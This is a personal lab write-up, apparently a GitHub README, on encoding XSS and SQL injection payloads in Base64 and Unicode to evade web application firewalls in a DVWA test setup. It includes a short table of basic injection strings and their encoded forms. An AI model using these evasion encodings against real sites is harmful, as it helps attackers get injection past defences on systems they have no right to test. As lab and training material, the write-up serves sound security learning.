 # 🧬 Base64 & Unicode Evasion

## 🎯 Objective
Evade WAF filters by transforming payloads using Base64 encoding and Unicode injection. These techniques are often overlooked by simple signature-based filters.

---

## 🛠️ Tools Used
- CyberChef (to encode payloads)
- Burp Suite Repeater (for injection)
- DVWA or test environment with ModSecurity/Cloudflare WAF

---

## 📍 Target
- **URL/IP:** http://192.168.1.110  
- **Environment:** DVWA behind WAF

---

## 🔤 Payload Examples

| Technique             | Original Payload            | Encoded Version                                |
|-----------------------|-----------------------------|------------------------------------------------|
| **XSS - Base64**      | `<script>alert(1)</script>` | `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`         |
| **XSS - Unicode**     | `<script>alert(1)</script>` | `\u003Cscript\u003Ealert(1)\u003C/script\u003E` |
| **SQLi - Base64**     | `' OR 1=1--`                | `JyBPUiAxPTEtLQ==`                              |
| **SQLi - Unicode**    | `' OR 1=1--`                | `\u0027\u0020OR\u00201\u003D1--`               |

---

## 📂 Output Files

- `transformed-payloads/base64-unicode-tests.txt`  
- `screenshots/base64-unicode-response.png`

---

## 🔍 Observations
- Base64 payloads often bypass initial filters
- Unicode can confuse parsing engines and avoid detection
- Context matters: decoding is required server-side for attack to succeed

---

## 🧠 What I Learned
- Practical encoding methods to evade WAF detection
- Importance of testing payloads with multiple encodings
- Strategic bypass planning based on filter behavior

---

## 🙋 About Me
I’m a Blue Teamer transitioning into Red Teaming, building real-world WAF evasion labs.

🔗 [Connect on LinkedIn](https://www.linkedin.com/in/aditya-kumar-goswami)  
📁 GitHub: [Aditya-Sec](https://github.com/Aditya-Sec)
